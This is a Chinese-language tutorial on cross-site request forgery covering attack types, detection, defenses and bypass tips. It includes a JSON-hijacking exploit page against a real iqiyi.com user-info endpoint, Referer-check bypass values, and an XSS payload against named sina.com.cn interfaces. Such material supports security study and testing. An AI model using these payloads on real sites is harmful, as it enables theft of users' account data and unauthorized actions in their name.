

## 一、跨站请求伪造漏洞
跨站请求伪造漏洞（Cross Site Request Forgery，常简写作CSRF，也有写作XSRF的）是指攻击者可以在第三方站点制造HTTP请求并以用户在目标站点的登录态发送到目标站点，而目标站点的应用程序未校验请求来源。  

## 二、漏洞的分类
CSRF漏洞从利用形式来看，分为“写”和“写-读”两类。  
#### 2.1 CSRF写——更改设置       
CSRF“写”是指攻击载体只需要发送HTTP请求的情况。   
这一类特征是Web应用程序在有登录态的情况下更改数据，是第三方站点只需要发送请求而不需要获得返回结果。如更改个人资料、发表文章、留言等，最简单的就是利用JavaScrip自动提交表单，很容易造成蠕虫攻击，如下所示：  

  

假设这个页面在 http://hacker.com 上，第一个点击打开页面的人自动发了一条心情，他的好友看到了进而又点击链接进入了恶意站点，导致不断地传播开来，造成蠕虫。   

如果是 get 请求可以触发的csrf，利用方式可以在一个正常的网站上插入一张图片（src 即存在漏洞cgi 地址），当别人浏览到这个页面时就会触发请求。  

#### 2.2 CSRF写和读——获取敏感信息
CSRF“写-读”是指攻击载体不仅要先发送HTTP请求，还要获取Web应用程序对该请求的返回内容的情况。  
这一类特征是Web应用程序在有登录态的情况下会输出敏感信息，第三方站点需要发送请求并还要获得返回结果，比如 JSON Hijacking和flash装载网页。  
JSON（JavaScript Object Notation）是一种轻量的数据交换格式，特别是在跨域交换数据的时候经常用到。一个简单的 jsonHijacking 利用 exp 如下：  
``` html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
  <title></title>
</head>

<body>
  <script type="text/javascript">
            var aaa="";
            function testa(str)
            {
              aaa=str;
            }
  </script>
  
  <script src="http://passport.iqiyi.com/apis/user/info.action?authcookie=&fields=
      userinfo%2Cqiyi_vip%2Cpps%2Caccounts%2Ctokens%2Cv&antiCsrf=&callback=testa" type="text/javascript">

  </script>
 
  <script type="text/javascript">
    alert(JSON.stringify(aaa));  //可以进一步把数据发往攻击者的站点
  </script>
  
</body>
</html>
```
另外一个地方是Flash。  
Flash的API 支持加载网页内容，如ActionScript 3.0提供的URLLoader类。但Flash装载站点内容必须得到站点根目录下的策略配置文件  crossdomain.xml的支持。如以下代码去读取www.example.com的返回内容（当然需要 http://www.example.com/crossdomain.xml 支持  flash所在域请求）：  
``` actionScript
import flash.net.*;
var myloader = new URLLoader(new URLRequest("http://www.example.com/"));
myloader.addEventListener(Event.COMPLETE,test);
myloader.load();
function test(event:Event){
var ResponseText:String = myloader.data;
text1.text = ResponseText;
stop();
}
```
如果该网页在用户登录态下会返回敏感信息，则这个flash可以获取到。  

## 三、如何检测漏洞
1. 抓包重放  
点击某功能后，使用抓包工具抓包重放，看正常返回值  
2. 去除refer/token  
去除refer/token参数，看返回值是否正常  
3. 验证  
如果正常，本地构造表单测试能否复现   
 
jsonhijacking 形式的也许可以尝试下自动测试，比如cookie 中带uin 字段的，带上refer/去掉refer 都请求一次接口，看返回内容中是否都包含了uin 的值，或者若是根据其他参数key 如 g_tk 来做限制的，可以把g_tk 值去掉，看请求是否也返回敏感信息了。  

## 四、如何防御
1. 检查 http referer 是否是同域  
如果网站有客户端，需要对此开绿灯，可能是个隐患。  
注意：ajax 跨域发起请求时是不可以添加 cookie、user-agent、referer、 x_forward_for 等http 头的，可以看下w3c给出的一份头部黑名单。否则 referer 校验就无效了。  
此外在某些情况下，浏览器也不会发送referer，比如从https 跳转到 http；flash 的请求等。  

2. 限制 cookie 的生命周期（减少发生概率）

3. 使用一次性 token
token 是一段随机的数字字母值，经常出现在表单的隐藏项中。  

4. 使用验证码（降低用户体验）
当同域页面上有xss 漏洞时，可以通过 ajax 获取到其他页面的 token；  
token 如果出现在 get 参数中，也容易通过 refer的方式泄露；  
此时只能通过验证码来防范csrf 了。  

5. 如果是会修改内容的请求，请使用post 请求，且在满足post 内容格式要求的情况下使用`Content-Type:application/json`，而当不同源客户端添加 `Content-Type`为 `application/json` 的时候浏览器会进行预检（发送OPTIONS请求），之后请求就会失败（服务器不要在 `Access-Control-Allow-Headers` 中加入 `Content-type`），而不会进一步发起真实的post请求，否则可能造成其实数据已经被post请求修改，虽然服务器返回响应时被浏览器拦截了。    

## 五、测试tips 分享
绕过csrf 防御技巧：  
1. refer 验证绕过：只验证了是否存在关键词，如  
`Referer:http://t.qq.com `可以使用  
`Referer:http://t.qq.com.yourdomain.com`  
`Referer:http://yourdomain.com/t.qq.com/`  
`Referer:http://yourdomain.com?r=http://t.qq.com`  
注：从https域下post数据到http域的时候，浏览器不带Referer；用 iframe 加载时也不带referer；比如本地html，还有某些伪协议远程调用时是没有referer的；   
2. 有时候存在token, 服务器端不一定做了验证，可以直接把 token 参数删除看是否能返回正常值；  
3. 将 post 请求换成对应的 get 请求，也许也可以绕过 refer 限制；  
4. 找到一个满足refer要求的站点的url 跳转漏洞绕过refer 校验。
5. 利用xss 漏洞绕过refer 校验，如下payload 绕过了 data_ajax.php 的refer 校验  
```
http://interface.sina.cn/yuedu/index_feed.d.json?page=1&act=more&jsoncallback=<script>function a(msg){alert(msg.data.login_info.username);}</script><script src="http://xx.sina.com.cn/data_ajax.php?_a=top_data&rnd=16721&callback=a"></script>
```

## Reference
[OPTIONS 请求预检](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)    
